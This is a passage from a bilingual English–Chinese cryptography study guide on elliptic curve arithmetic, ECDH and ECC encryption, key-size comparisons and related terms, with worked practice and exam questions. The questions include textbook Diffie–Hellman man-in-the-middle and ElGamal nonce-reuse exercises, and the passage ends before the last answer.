
The points pair up as \((x,y)\) and \((x,23-y)\), symmetric about \(y=11.5\). The exception is \((4,0)\), its own negative.这些点两两配对，如 \((x,y)\) 与 \((x,23-y)\)，它们关于 \(y=11.5\) 对称。例外是 \((4,0)\)，它的负元就是它自己。
Practice练习
Q1. (Check) (a) Does \(y^2=x^3+x+2\) define a group over \(\mathbb{Z}_7\)? (b) Is \((5,12)\) a point of \(y^2=x^3+4x-1\) over the real numbers?Q1. （检验）（a）\(y^2=x^3+x+2\) 在 \(\mathbb{Z}_7\) 上是否定义了一个群？（b）\((5,12)\) 是否为实数域上 \(y^2=x^3+4x-1\) 的点？
Answer
(a) \(4a^3+27b^2=4\cdot1+27\cdot4=112=16\cdot7\equiv0\pmod7\). The condition fails (the cubic has a repeated factor), so the points do not form a group.（a）\(4a^3+27b^2=4\cdot1+27\cdot4=112=16\cdot7\equiv0\pmod7\)。条件不成立（三次式有重因子），因此这些点不构成群。
(b) \(y^2=12^2=144\) and \(x^3+4x-1=125+20-1=144\). Yes, the point lies on the curve.（b）\(y^2=12^2=144\) 与 \(x^3+4x-1=125+20-1=144\)。是的，该点位于曲线上。
Q2. (Calculation) On \(E_{23}(1,1)\) let \(P=(13,7)\). Find \(-P\), \(2P\) and \(3P\).Q2. （计算）在 \(E_{23}(1,1)\) 上设 \(P=(13,7)\)。求 \(-P\)、\(2P\) 和 \(3P\)。
Answer
\(-P=(13,-7)=(13,16)\).
Doubling: \(\lambda=\frac{3\cdot13^2+1}{2\cdot7}=\frac{508}{14}\equiv\frac{2}{14}\equiv2\cdot5=10\) (as \(14\cdot5=70\equiv1\)). \(x_R=10^2-2\cdot13=74\equiv5\) and \(y_R=10(13-5)-7=73\equiv4\). So \(2P=(5,4)\).倍点：\(\lambda=\frac{3\cdot13^2+1}{2\cdot7}=\frac{508}{14}\equiv\frac{2}{14}\equiv2\cdot5=10\)（即 \(14\cdot5=70\equiv1\)）。\(x_R=10^2-2\cdot13=74\equiv5\) 与 \(y_R=10(13-5)-7=73\equiv4\)。因此 \(2P=(5,4)\)。
Then \(3P=2P+P\): \(\lambda=\frac{7-4}{13-5}=\frac38\equiv3\cdot3=9\) (as \(8\cdot3\equiv1\)). \(x_R=81-5-13=63\equiv17\) and \(y_R=9(5-17)-4=-112\equiv3\). So \(3P=(17,3)\). Both \((5,4)\) and \((17,3)\) appear in the table.然后 \(3P=2P+P\)：\(\lambda=\frac{7-4}{13-5}=\frac38\equiv3\cdot3=9\)（即 \(8\cdot3\equiv1\)）。\(x_R=81-5-13=63\equiv17\) 与 \(y_R=9(5-17)-4=-112\equiv3\)。因此 \(3P=(17,3)\)。\((5,4)\) 和 \((17,3)\) 都出现在表中。
Q3. (Calculation and reasoning) (a) Find all points of \(E_7(2,1)\): \(y^2=x^3+2x+1\) over \(\mathbb{Z}_7\). (b) Compute the multiples of \(P=(0,1)\). (c) What does the number of points tell you about the order of every point?Q3. （计算与推理）（a）求 \(E_7(2,1)\)：\(y^2=x^3+2x+1\)（定义在 \(\mathbb{Z}_7\) 上）的所有点。（b）计算 \(P=(0,1)\) 的各倍数。（c）点的个数能说明每个点的阶有何性质？
Answer
(a) \(x^3+2x+1\bmod7\) for \(x=0,\dots,6\) is \(1,4,6,6,3,3,5\). The nonzero squares modulo 7 are \(1,2,4\), so only the values 1 and 4 have square roots: \(y=1,6\) for \(x=0\) and \(y=2,5\) for \(x=1\). Hence \(E_7(2,1)=\lbrace O,(0,1),(0,6),(1,2),(1,5)\rbrace\) and \(N=5\), inside the bound \(2.7\le N\le13.3\).（a）对于 \(x=0,\dots,6\)，\(x^3+2x+1\bmod7\) 为 \(1,4,6,6,3,3,5\)。模 7 的非零平方为 \(1,2,4\)，因此只有值 1 和 4 有平方根：对于 \(x=0\)，有 \(y=1,6\)；对于 \(x=1\)，有 \(y=2,5\)。于是 \(E_7(2,1)=\lbrace O,(0,1),(0,6),(1,2),(1,5)\rbrace\) 与 \(N=5\)，均在界 \(2.7\le N\le13.3\) 之内。
(b) Doubling: \(\lambda=\frac{2}{2}=1\), \(x_R=1\), \(y_R=1\cdot(0-1)-1\equiv5\), so \(2P=(1,5)\). Continuing, \(3P=(1,2)\), \(4P=(0,6)=-P\) and \(5P=O\).（b）倍点：\(\lambda=\frac{2}{2}=1\)、\(x_R=1\)、\(y_R=1\cdot(0-1)-1\equiv5\)，因此 \(2P=(1,5)\)。继续计算，得 \(3P=(1,2)\)、\(4P=(0,6)=-P\) 和 \(5P=O\)。
(c) The order of a point divides the number of points (Lagrange's theorem). Since \(N=5\) is prime, every point other than \(O\) has order 5 and generates the whole group.（c）点的阶整除点的个数（拉格朗日定理）。由于 \(N=5\) 是素数，除 \(O\) 外的每个点都具有阶 5，并生成整个群。
Elliptic curve cryptography ★★椭圆曲线密码学
Goal. Run Diffie–Hellman and encryption with curve points, and state why elliptic curve keys are much shorter than RSA keys.目标。用曲线上的点运行 Diffie–Hellman 与加密，并说明为什么椭圆曲线密钥比 RSA 密钥短得多。
Step 1: the hard problem第 1 步：困难问题
In words: computing \(kP\) is easy, but finding \(k\) from \(P\) and \(kP\) is hard.用文字表述：计算 \(kP\) 很容易，但由 \(P\) 和 \(kP\) 求出 \(k\) 却很困难。
In \(E_p(a,b)\) the point \(Q=kP\) is easy to compute from \(k\) and \(P\). Finding \(k\) from \(P\) and \(Q\) is the elliptic curve discrete logarithm problem（椭圆曲线离散对数问题）, ECDLP. Point addition plays the role of modular multiplication, and repeated addition plays the role of exponentiation.在 \(E_p(a,b)\) 中，点 \(Q=kP\) 很容易由 \(k\) 和 \(P\) 算出。而由 \(P\) 和 \(Q\) 求出 \(k\)，就是椭圆曲线离散对数问题，简称 ECDLP。点加法扮演模乘法的角色，重复相加则扮演幂运算的角色。
The fast way to compute \(kP\) is double-and-add, which mirrors square-and-multiply. Scan the bits of \(k\) from the top, start at \(P\), double the running point for each further bit, and add \(P\) when the bit is 1. Example: \(13=1101_2\), so \(13P=2(2(2P+P))+P\), five operations instead of twelve additions.计算 \(kP\) 的快速方法是倍加法，它与平方乘法相对应。从最高位开始扫描 \(k\) 的各比特，从 \(P\) 开始；每处理一个后续比特，就把当前点加倍；比特为 1 时再加上 \(P\)。例如 \(13=1101_2\)，因此 \(13P=2(2(2P+P))+P\)，共五次运算，而不是十二次加法。
Step 2: elliptic curve Diffie–Hellman第 2 步：椭圆曲线 Diffie–Hellman
Choose a curve \(E_q(a,b)\) and a base point（基点）\(G\) of very large order（阶）\(n\). The order is the smallest positive integer with \(nG=O\). Curve and \(G\) are public.选取曲线 \(E_q(a,b)\) 和阶非常大的基点 \(G\)，其阶为 \(n\)。阶是满足 \(nG=O\) 的最小正整数。曲线和 \(G\) 都是公开的。


Step 3: encryption第 3 步：加密
In words: ElGamal with points: the mask is added to the message point instead of multiplied, and removed by subtracting.用文字表述：点上的 ElGamal：掩码不再相乘，而是加到消息点上，解密时通过相减去掉。
The message is first encoded as a curve point \(P_m\). Bob has private key \(n_B\) and public key \(P_B=n_BG\).消息先被编码为曲线上的点 \(P_m\)。Bob 的私钥是 \(n_B\)，公钥是 \(P_B=n_BG\)。
| ElGamal | ECC encryptionECC 加密 | |
|---|---|---|
| Public key公钥 | \(Y_A=\alpha^{X_A}\) | \(P_B=n_BG\) |
| Clue sent发送的线索 | \(C_1=\alpha^k\) | \(kG\) |
| Mask掩码 | multiply: \(C_2=Y_A^{\,k}M\) | add: \(P_m+kP_B\) |
| Unmasking去掩码 | multiply by \(K^{-1}\) | subtract \(n_B(kG)\) |
Step 4: key sizes and security第 4 步：密钥长度与安全性
The fastest known attack on the ECDLP is the Pollard rho method. It is a generic attack that needs about \(\sqrt n\) steps. Factoring (RSA) and discrete logarithms modulo a prime (Diffie–Hellman, ElGamal) have faster sub-exponential attacks, so those keys must be much longer. Comparable key sizes (NIST SP 800-57):目前已知对 ECDLP 最快的攻击是 Pollard rho 方法。它是一种通用攻击，大约需要 \(\sqrt n\) 步。对于因数分解（RSA）以及素数模上的离散对数（Diffie–Hellman、ElGamal），存在更快的亚指数攻击，因此这些密钥必须长得多。可比的密钥长度（NIST SP 800-57）：
| Symmetric key (bits)对称密钥（比特） | DH, DSA (\(L\) public, \(N\) private key)DH、DSA（\(L\) 公钥，\(N\) 私钥） | RSA modulus (bits)RSA 模数（比特） | ECC modulus (bits)ECC 模数（比特） |
|---|---|---|---|
| 80 | \(L=1024\), \(N=160\) | 1024 | 160–223 |
| 112 | \(L=2048\), \(N=224\) | 2048 | 224–255 |
| 128 | \(L=3072\), \(N=256\) | 3072 | 256–383 |
| 192 | \(L=7680\), \(N=384\) | 7680 | 384–511 |
| 256 | \(L=15360\), \(N=512\) | 15360 | 512+ |
At 128-bit security ECC needs 256 bits where RSA and DH need 3072, twelve times fewer. The shorter key gives lower processing, storage and bandwidth costs. The drawback is that ECC is harder to explain and implement, and it has had less cryptanalysis than RSA.在 128 比特安全强度下，ECC 需要 256 比特，而 RSA 和 DH 需要 3072 比特，前者只有后者的十二分之一。更短的密钥意味着更低的计算、存储和带宽开销。缺点是 ECC 更难讲解和实现，而且它受到的密码分析比 RSA 少。
| RSA | DH | ElGamal | ECC | |
|---|---|---|---|---|
| Used for用途 | encryption, signatures, key exchange加密、签名、密钥交换 | key exchange only仅用于密钥交换 | encryption加密 | key exchange, encryption, signatures密钥交换、加密、签名 |
| Hard problem困难问题 | factoring因数分解 | discrete logarithm离散对数 | discrete logarithm离散对数 | elliptic curve discrete logarithm椭圆曲线离散对数 |
| Key size at 128-bit security128 位安全强度下的密钥长度 | 3072 bits3072 位 | 3072 bits3072 位 | 3072 bits3072 位 | 256 bits256 位 |
Practice练习
Q1. (Calculation) The curve \(E_{11}(1,7)\): \(y^2=x^3+x+7\) over \(\mathbb{Z}_{11}\) has the point \(G=(3,2)\) of order 15 with multiples \(2G=(10,4)\), \(3G=(1,8)\), \(4G=(5,4)\), \(5G=(4,8)\), \(6G=(7,7)\), \(7G=(6,8)\), \(8G=(6,3)\), \(9G=(7,4)\), \(10G=(4,3)\), \(11G=(5,7)\), \(12G=(1,3)\), \(13G=(10,7)\), \(14G=(3,9)\). Alice chooses \(n_A=4\) and Bob \(n_B=6\). Find both public keys and compute the shared secret on both sides.Q1. （计算）曲线 \(E_{11}(1,7)\)：\(y^2=x^3+x+7\)（定义在 \(\mathbb{Z}_{11}\) 上）有阶为 15 的点 \(G=(3,2)\)，其倍数依次为 \(2G=(10,4)\)、\(3G=(1,8)\)、\(4G=(5,4)\)、\(5G=(4,8)\)、\(6G=(7,7)\)、\(7G=(6,8)\)、\(8G=(6,3)\)、\(9G=(7,4)\)、\(10G=(4,3)\)、\(11G=(5,7)\)、\(12G=(1,3)\)、\(13G=(10,7)\)、\(14G=(3,9)\)。Alice 选取 \(n_A=4\)，Bob 选取 \(n_B=6\)。求双方的公钥，并计算双方的共享秘密。
Answer
\(P_A=4G=(5,4)\) and \(P_B=6G=(7,7)\). Alice computes \(4P_B\) by two doublings. \(2(7,7)\): \(\lambda=\frac{3\cdot49+1}{14}\equiv\frac53\equiv5\cdot4=9\), \(x_R=81-14=67\equiv1\), \(y_R=9(7-1)-7=47\equiv3\), giving \((1,3)\). \(2(1,3)\): \(\lambda=\frac{4}{6}\equiv4\cdot2=8\), \(x_R=64-2=62\equiv7\), \(y_R=8(1-7)-3=-51\equiv4\), giving \((7,4)\). Bob computes \(6P_A=24G=9G=(7,4)\) because \(15G=O\). Both obtain \(K=(7,4)\).\(P_A=4G=(5,4)\) 和 \(P_B=6G=(7,7)\)。Alice 通过两次倍点计算 \(4P_B\)。\(2(7,7)\)：\(\lambda=\frac{3\cdot49+1}{14}\equiv\frac53\equiv5\cdot4=9\)、\(x_R=81-14=67\equiv1\)、\(y_R=9(7-1)-7=47\equiv3\)，得到 \((1,3)\)。\(2(1,3)\)：\(\lambda=\frac{4}{6}\equiv4\cdot2=8\)、\(x_R=64-2=62\equiv7\)、\(y_R=8(1-7)-3=-51\equiv4\)，得到 \((7,4)\)。Bob 计算 \(6P_A=24G=9G=(7,4)\)，因为 \(15G=O\)。双方都得到 \(K=(7,4)\)。
Q2. (Beyond the text) Use double-and-add to compute \(7G\) for \(G=(3,2)\) on \(E_{11}(1,7)\). How many operations does this need compared with repeated addition?Q2. （超出教材内容）在 \(E_{11}(1,7)\) 上使用倍加算法，为 \(G=(3,2)\) 计算 \(7G\)。与重复加法相比，这需要多少次运算？
Answer
\(7=111_2\). Start with \(G\). Bit 1: double to \(2G=(10,4)\) (\(\lambda=7\)), add \(G\) to get \(3G=(1,8)\) (\(\lambda=5\)). Bit 1: double to \(6G=(7,7)\) (\(\lambda=3\)), add \(G\) to get \(7G=(6,8)\) (\(\lambda=4\)). That is 2 doublings and 2 additions, 4 operations, against 6 additions for repeated addition. For a 256-bit \(k\) it needs at most about 256 doublings and 256 additions instead of about \(2^{256}\) additions.\(7=111_2\)。从 \(G\) 开始。比特 1：倍点得到 \(2G=(10,4)\)（\(\lambda=7\)），再加上 \(G\) 得到 \(3G=(1,8)\)（\(\lambda=5\)）。比特 1：倍点得到 \(6G=(7,7)\)（\(\lambda=3\)），再加上 \(G\) 得到 \(7G=(6,8)\)（\(\lambda=4\)）。共 2 次倍点与 2 次加法，即 4 次运算，而重复加法需要 6 次加法。对于 256 位的 \(k\)，至多需要约 256 次倍点和 256 次加法，而重复加法则需要约 \(2^{256}\) 次加法。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Forward secrecy（前向保密） | Fresh private values for every session (ephemeral Diffie–Hellman) keep past session keys safe if a long-term key is stolen. The static directory scheme lacks it.每次会话都使用新的私有值（临时 Diffie–Hellman），这样即使长期密钥被盗，过去会话的密钥也仍然安全。静态目录方案不具备这一性质。 |
| Binary curve（二元曲线） | \(y^2+xy=x^3+ax^2+b\) with \(b\ne0\) over \(\mathrm{GF}(2^m)\); addition is XOR. Prime curves suit software, binary curves suit hardware.\(y^2+xy=x^3+ax^2+b\)，参数为 \(b\ne0\)，定义在 \(\mathrm{GF}(2^m)\) 上；加法为异或。素数曲线适合软件实现，二元曲线适合硬件实现。 |
| Point at infinity无穷远点 | The extra element \(O\) of every curve group; it is the identity.每个曲线群中额外的元素 \(O\)；它是单位元。 |
| Pollard rho | Best known attack on the ECDLP, about \(\sqrt n\) steps, where \(n\) is the order of the base point.对 ECDLP 已知最好的攻击，约需 \(\sqrt n\) 步，其中 \(n\) 是基点的阶。 |
| NIST minimumNIST 最低要求 | NIST SP 800-57 and ENISA (2014): 3072-bit RSA and 256-bit ECC for new systems.NIST SP 800-57 和 ENISA（2014）：新系统应使用 3072 比特 RSA 和 256 比特 ECC。 |
| DSA | The Digital Signature Algorithm of the standard FIPS 186-4. It signs only and cannot encrypt or exchange keys (Chapter 13).标准 FIPS 186-4 中的数字签名算法。它只能签名，不能加密或交换密钥（见第 13 章）。 |
| Shor's algorithmShor 算法 | A large quantum computer would solve factoring and both discrete logarithm problems, breaking RSA, Diffie–Hellman, ElGamal and ECC.大型量子计算机可以解决因数分解和两类离散对数问题，从而攻破 RSA、Diffie–Hellman、ElGamal 和 ECC。 |
| Post-quantum standards后量子标准 | NIST selected CRYSTALS-KYBER for key exchange and CRYSTALS-Dilithium, FALCON and SPHINCS+ for signatures (2022).NIST 选定 CRYSTALS-KYBER 用于密钥交换，选定 CRYSTALS-Dilithium、FALCON 和 SPHINCS+ 用于签名（2022 年）。 |
Exam-style questions考试题型练习
Q1. (Diffie–Hellman and man-in-the-middle, 15 marks) Alice and Bob use DH with \(q=97\) and \(\alpha=5\). Alice's private key is \(X_A=9\) and Bob's is \(X_B=14\).Q1. （Diffie–Hellman 与中间人攻击，15 分）Alice 和 Bob 使用参数 \(q=97\) 和 \(\alpha=5\) 进行 DH。Alice 的私钥为 \(X_A=9\)，Bob 的私钥为 \(X_B=14\)。
(a) Compute both public keys and the shared key. (6)（a）计算双方的公钥以及共享密钥。（6）
(b) State what an eavesdropper must compute to obtain the key and why this is hard. (3)（b）说明窃听者为获得密钥必须计算什么，以及为什么这很困难。（3）
(c) Darth intercepts the exchange with \(X_{D1}=5\) (towards Bob) and \(X_{D2}=7\) (towards Alice). Compute the values he sends and the keys \(K_1\) and \(K_2\). (4)（c）Darth 拦截交换，并分别以 \(X_{D1}=5\)（发往 Bob）和 \(X_{D2}=7\)（发往 Alice）替换。计算他发送的值，以及密钥 \(K_1\) 和 \(K_2\)。（4）
(d) Give one countermeasure. (2)（d）给出一种对策。（2）
Answer
(a) Powers of 5 modulo 97: \(5^2=25\), \(5^4=43\), \(5^8=6\). So \(Y_A=5^9=5^8\cdot5=30\) and \(Y_B=5^{14}=5^8\cdot5^4\cdot5^2\equiv6\cdot43\cdot25\equiv48\). Alice computes \(K=48^9\bmod97\): \(48^2\equiv73\), \(48^4\equiv91\), \(48^8\equiv36\), so \(K=36\cdot48\equiv79\). Bob computes \(30^{14}\bmod97=79\). The shared key is 79.（a）模 97 下 5 的幂：\(5^2=25\)、\(5^4=43\)、\(5^8=6\)。因此 \(Y_A=5^9=5^8\cdot5=30\) 与 \(Y_B=5^{14}=5^8\cdot5^4\cdot5^2\equiv6\cdot43\cdot25\equiv48\)。Alice 计算 \(K=48^9\bmod97\)：\(48^2\equiv73\)、\(48^4\equiv91\)、\(48^8\equiv36\)，因此 \(K=36\cdot48\equiv79\)。Bob 计算 \(30^{14}\bmod97=79\)。共享密钥为 79。
(b) She knows \(q,\alpha,Y_A,Y_B\) and must solve \(5^x\equiv30\) or \(5^x\equiv48\), that is, compute a discrete logarithm, and then raise the other public key to that power. For \(q=97\) she can try all 96 exponents, but for a 2048-bit prime no efficient algorithm for discrete logarithms is known.（b）窃听者知道 \(q,\alpha,Y_A,Y_B\)，并且必须求解 \(5^x\equiv30\) 或 \(5^x\equiv48\)，即计算离散对数，然后把另一方的公钥提升到该幂次。对于 \(q=97\)，窃听者可以尝试全部 96 个指数，但对于 2048 位的素数，目前尚无已知的高效离散对数算法。
(c) Darth sends \(Y_{D1}=5^5\bmod97=21\) to Bob and \(Y_{D2}=5^7\bmod97=40\) to Alice. Bob computes \(K_1=21^{14}\bmod97=3\) and Darth gets the same value as \(48^5\bmod97=3\). Alice computes \(K_2=40^9\bmod97=51\) and Darth gets \(30^7\bmod97=51\). So Alice shares 51 with Darth and Bob shares 3 with Darth; the key 79 is never used.（c）Darth 将 \(Y_{D1}=5^5\bmod97=21\) 发送给 Bob，将 \(Y_{D2}=5^7\bmod97=40\) 发送给 Alice。Bob 计算 \(K_1=21^{14}\bmod97=3\)，而 Darth 得到的值与 \(48^5\bmod97=3\) 相同。Alice 计算 \(K_2=40^9\bmod97=51\)，Darth 得到 \(30^7\bmod97=51\)。因此 Alice 与 Darth 共享 51，Bob 与 Darth 共享 3；密钥 79 从未被使用。
(d) Authenticate the public keys: each side signs its \(Y\) and the other verifies the signature with a certified public key (Chapter 13).（d）对公钥进行认证：每一方对其 \(Y\) 签名，另一方用经过证书认证的公钥验证该签名（第 13 章）。
思路：先用平方乘法算 \(Y\) 和 \(K\)；中间人的两个密钥分别由 Darth 的私钥和双方公开值算出，所以双方得到的密钥各不相同。
Q2. (ElGamal, 12 marks) ElGamal uses \(q=29\) and \(\alpha=2\) (a primitive root of 29). Alice's private key is \(X_A=6\).Q2. （ElGamal，12 分）ElGamal 使用 \(q=29\) 和 \(\alpha=2\)（29 的一个原根）。Alice 的私钥为 \(X_A=6\)。
(a) Compute Alice's public key. (2)（a）计算 Alice 的公钥。（2）
(b) Bob encrypts \(M=11\) with \(k=5\). Compute the ciphertext. (4)（b）Bob 用 \(k=5\) 加密 \(M=11\)。计算密文。（4）
(c) Show how Alice decrypts. (3)（c）说明 Alice 如何解密。（3）
(d) Bob reuses \(k=5\) for a second message and sends \((3,28)\). Eve knows the first plaintext \(M=11\). Find the second plaintext and state the lesson. (3)（d）Bob 为第二条消息重复使用 \(k=5\)，并发送 \((3,28)\)。Eve 知道第一条明文为 \(M=11\)。求第二条明文，并说明其教训。（3）
Answer
(a) \(Y_A=2^6\bmod29=64-58=6\), so the public key is \(\lbrace29,2,6\rbrace\).（a）\(Y_A=2^6\bmod29=64-58=6\)，因此公钥为 \(\lbrace29,2,6\rbrace\)。
(b) \(K=6^5\bmod29\): \(6^2=36\equiv7\), \(6^4\equiv49\equiv20\), \(6^5\equiv120\equiv4\). \(C_1=2^5\bmod29=3\) and \(C_2=4\cdot11\bmod29=44-29=15\). The ciphertext is \((3,15)\).（b）\(K=6^5\bmod29\)：\(6^2=36\equiv7\)、\(6^4\equiv49\equiv20\)、\(6^5\equiv120\equiv4\)。\(C_1=2^5\bmod29=3\) 和 \(C_2=4\cdot11\bmod29=44-29=15\)。密文为 \((3,15)\)。
(c) \(K=C_1^{X_A}=3^6\bmod29=729-25\cdot29=4\). \(K^{-1}=22\) because \(4\cdot22=88=3\cdot29+1\). \(M=C_2K^{-1}=15\cdot22\bmod29=330-11\cdot29=11\).（c）\(K=C_1^{X_A}=3^6\bmod29=729-25\cdot29=4\)。\(K^{-1}=22\)，因为 \(4\cdot22=88=3\cdot29+1\)。\(M=C_2K^{-1}=15\cdot22\bmod29=330-11\cdot29=11\)。
(d) The same \(C_1=3\) shows that \(k\) was reused, so \(K\) is the same. \(M'=C_2'\,C_2^{-1}M=28\cdot15^{-1}\cdot11\bmod29\) with \(15^{-1}=2\) (as \(15\cdot2=30\equiv1\)): \(28\cdot2\cdot11=616\equiv7\). So \(M'=7\). Lesson: use a fresh random \(k\) for every message, otherwise one known plaintext reveals the others.（d）相同的 \(C_1=3\) 表明 \(k\) 被重复使用，因此 \(K\) 也相同。\(M'=C_2'\,C_2^{-1}M=28\cdot15^{-1}\cdot11\bmod29\) 与 \(15^{-1}=2\)（作为 \(15\cdot2=30\equiv1\)）：\(28\cdot2\cdot11=616\equiv7\)。因此 \(M'=7\)。教训：每条消息都要使用新的随机 \(k\)，否则一个已知明文就会泄露其他明文。
易错：解密要乘的是 \(K\) 的模逆，不是除以 \(K\)；\(k\) 重复使用时 \(C_1\) 相同，这是识别漏洞的标志。
Q3. (Elliptic curve arithmetic, 15 marks) Let \(E_{17}(2,2)\) be the curve \(y^2\equiv x^3+2x+2\pmod{17}\) and \(P=(5,1)\).Q3. （椭圆曲线运算，15 分）设 \(E_{17}(2,2)\) 为曲线 \(y^2\equiv x^3+2x+2\pmod{17}\)，并且 \(P=(5,1)\)。
(a) Show that the curve defines a group and that \(P\) lies on it. (4)（a）证明该曲线定义了一个群，并且 \(P\) 位于其上。（4）
(b) Compute \(2P\) and \(3P\). (6)（b）计算 \(2P\) 和 \(3P\)。（6）
(c) Give \(-P\) and compute \(P+(-P)\). (2)（c）给出 \(-P\)，并计算 \(P+(-P)\)。（2）
(d) It is known that \(19P=O\). Find the number of points of the curve. (3)（d）已知 \(19P=O\)。求该曲线的点的个数。（3）
Answer
(a) \(4a^3+27b^2=4\cdot8+27\cdot4=140\equiv4\ne0\pmod{17}\), so the points form a group. For \(P\): \(y^2=1\) and \(x^3+2x+2=125+10+2=137=8\cdot17+1\equiv1\), so \(P\) is on the curve.（a）\(4a^3+27b^2=4\cdot8+27\cdot4=140\equiv4\ne0\pmod{17}\)，因此这些点构成群。对于 \(P\)：\(y^2=1\) 与 \(x^3+2x+2=125+10+2=137=8\cdot17+1\equiv1\)，因此 \(P\) 位于曲线上。
(b) \(\lambda=\frac{3\cdot5^2+2}{2\cdot1}=\frac{77}{2}\equiv\frac92\equiv9\cdot9=81\equiv13\), using \(2^{-1}=9\). \(x_R=13^2-5-5=159\equiv6\) and \(y_R=13(5-6)-1=-14\equiv3\). So \(2P=(6,3)\). For \(3P=2P+P\): \(\lambda=\frac{1-3}{5-6}=2\), \(x_R=4-6-5=-7\equiv10\), \(y_R=2(6-10)-3=-11\equiv6\). So \(3P=(10,6)\).（b）\(\lambda=\frac{3\cdot5^2+2}{2\cdot1}=\frac{77}{2}\equiv\frac92\equiv9\cdot9=81\equiv13\)，使用 \(2^{-1}=9\)。\(x_R=13^2-5-5=159\equiv6\) 与 \(y_R=13(5-6)-1=-14\equiv3\)。因此 \(2P=(6,3)\)。对于 \(3P=2P+P\)：\(\lambda=\frac{1-3}{5-6}=2\)、\(x_R=4-6-5=-7\equiv10\)、\(y_R=2(6-10)-3=-11\equiv6\)。因此 \(3P=(10,6)\)。
(c) \(-P=(5,-1)=(5,16)\), and \(P+(-P)=O\) because the line through them is vertical.（c）\(-P=(5,-1)=(5,16)\)，并且 \(P+(-P)=O\)，因为过它们的直线是竖直的。
(d) By the bound on \(N\): \(18-2\sqrt{17}\le N\le18+2\sqrt{17}\), that is \(9.75\le N\le26.2\), so \(10\le N\le26\). The order of \(P\) divides \(N\); since \(19P=O\) and 19 is prime, the order of \(P\) is 19, so \(19\mid N\). The only multiple of 19 in the range is 19, hence \(N=19\) points including \(O\).（d）由 \(N\) 的界：\(18-2\sqrt{17}\le N\le18+2\sqrt{17}\)，即 \(9.75\le N\le26.2\)，因此 \(10\le N\le26\)。\(P\) 的阶整除 \(N\)；由于 \(19P=O\)，且 19 为素数，\(P\) 的阶为 19，因此 \(19\mid N\)。在该范围内 19 的唯一倍数是 19，因此共有 \(N=19\) 个点（包括 \(O\)）。
思路：先验证群条件和点在曲线上，再按“弦/切线斜率 → \(x_R\) → \(y_R\)”的固定顺序算，最后用 Hasse 界加阶整除点数得到 \(N\)。
Q4. (ECDH and ECC encryption, 14 marks) Use \(E_{17}(2,2)\) with base point \(G=(5,1)\) and \(19G=O\). Its multiples are \(2G=(6,3)\), \(3G=(10,6)\), \(4G=(3,1)\), \(5G=(9,16)\), \(6G=(16,13)\), \(7G=(0,6)\), \(8G=(13,7)\), \(9G=(7,6)\), \(10G=(7,11)\), \(11G=(13,10)\), \(12G=(0,11)\), \(13G=(16,4)\), \(14G=(9,1)\), \(15G=(3,16)\), \(16G=(10,11)\), \(17G=(6,14)\), \(18G=(5,16)\). Alice's private key is \(n_A=3\) and Bob's is \(n_B=7\).Q4. （ECDH 与 ECC 加密，14 分）使用 \(E_{17}(2,2)\)，基点为 \(G=(5,1)\)，并且 \(19G=O\)。其各倍数依次为 \(2G=(6,3)\)、\(3G=(10,6)\)、\(4G=(3,1)\)、\(5G=(9,16)\)、\(6G=(16,13)\)、\(7G=(0,6)\)、\(8G=(13,7)\)、\(9G=(7,6)\)、\(10G=(7,11)\)、\(11G=(13,10)\)、\(12G=(0,11)\)、\(13G=(16,4)\)、\(14G=(9,1)\)、\(15G=(3,16)\)、\(16G=(10,11)\)、\(17G=(6,14)\)、\(18G=(5,16)\)。Alice 的私钥为 \(n_A=3\)，Bob 的私钥为 \(n_B=7\)。
(a) Find the public keys. (2)（a）求公钥。（2）
(b) Compute the shared secret on both sides. (4)（b）计算双方的共享秘密。（4）
(c) Alice encrypts the point \(P_m=(13,7)\) with \(k=4\). Compute \(C_m\). (4)（c）Alice 用 \(k=4\) 加密点 \(P_m=(13,7)\)。计算 \(C_m\)。（4）
(d) Show Bob's decryption. (4)（d）说明 Bob 的解密过程。（4）
Answer
